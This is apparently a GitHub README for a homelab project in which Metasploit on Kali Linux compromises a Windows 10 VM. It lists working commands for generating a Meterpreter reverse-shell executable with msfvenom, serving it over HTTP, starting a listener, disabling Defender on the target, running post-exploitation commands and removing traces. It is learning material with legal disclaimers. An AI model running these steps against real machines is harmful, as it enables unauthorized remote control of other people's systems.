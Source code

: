# Kali-Metasploit-Project-Homelab

# Metasploit Penetration Testing Project

## 📌 Overview
For my project I demonstrated the use of **Metasploit Framework** to exploit a **Windows 10 VM** using a **Kali Linux VM** as the attacker. It covers the full penetration testing process, from setting up the environment to executing post-exploitation techniques.

⚠️ **Disclaimer:** This project is for educational and ethical hacking purposes only. Unauthorized access to computer systems is illegal. Always obtain permission before testing.

## 📸 Screenshots of My Metasploit Project

### 1️⃣ Kali Linux Attacking the Windows 10 VM|Successful Exploit Session: 
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Kali%20Linux%20Attacking%20the%20Windows%2010%20VM%20Successful%20Exploit%20Session.png?raw=true 

### 2️⃣ Windows 10 Target VM|File explorer w/ the payload:
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Payload%20into%20the%20file%20explorer.png?raw=true

### 3️⃣ Windows 10 Target VM|CMD prompt executed payload:
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Executed%20the%20payload.png?raw=true


---

## 🔧 Installation & Setup

### **1️⃣ Install VMware Workstation Pro**
- Download and install VMware Workstation Pro from [VMware’s official site](https://www.vmware.com/products/workstation-pro.html).

### **2️⃣ Set Up Virtual Machines**
#### **Kali Linux VM (Attacker)**
- Download the latest **Kali Linux** ISO from [Kali’s official website](https://www.kali.org/).
- Install Kali on VMware and ensure **Metasploit Framework** is installed:
  ```bash
  sudo apt update && sudo apt install metasploit-framework -y

Windows 10 VM (Target)
- Install a Windows 10 virtual machine.
- Disable Windows Defender to prevent automatic deletion of the payload.

3️⃣ Configure Network Settings
I used the Bridged Adapter for both VMs to allow network communication.
Check IP addresses:
ip a   # On Kali
ipconfig   # On Windows (Command Prompt)

🎯 Exploitation Steps
1️⃣ Generate Payload (Malicious Executable)
Run the following msfvenom command on Kali to create a reverse shell payload:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_Kali_IP> LPORT=4444 -f exe > payload.exe

2️⃣ Transfer Payload to Windows 10
Use a USB drive:
- sudo cp payload.exe /media/kali/USB_NAME/
- python3 -m http.server 8080
- http://<Your_Kali_IP>:8080/payload.exe

3️⃣ Start the Metasploit Listener
Launch Metasploit and set up the exploit:
msfconsole #start metasploit
- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST <Your_Kali_IP>
- set LPORT 4444
- exploit

4️⃣ Execute Payload on Windows
Run payload.exe on Windows. If successful, Meterpreter will open:
meterpreter >

🔥 Post-Exploitation Techniques
Once inside Meterpreter, try these:

Check system info:
- sysinfo
- getuid
- screenshot

🛑 Cleanup & Exit
To remove traces and exit:
- rm C:\\Users\\Public\\payload.exe
- exit
- sessions -K

⚖️ Legal & Ethical Considerations
This project is intended for educational purposes only. Unauthorized penetration testing is illegal under the Computer Fraud and Abuse Act (CFAA). Only perform tests in authorized environments with explicit permission.

I hacked a windows 10 vm on my personal Virtual Machine! so if you plan on doing this, please be responisble! 

Always hack responsibly! 🚀

📜 License
This project is released under the MIT License. You are free to use, modify, and distribute it for educational purposes.
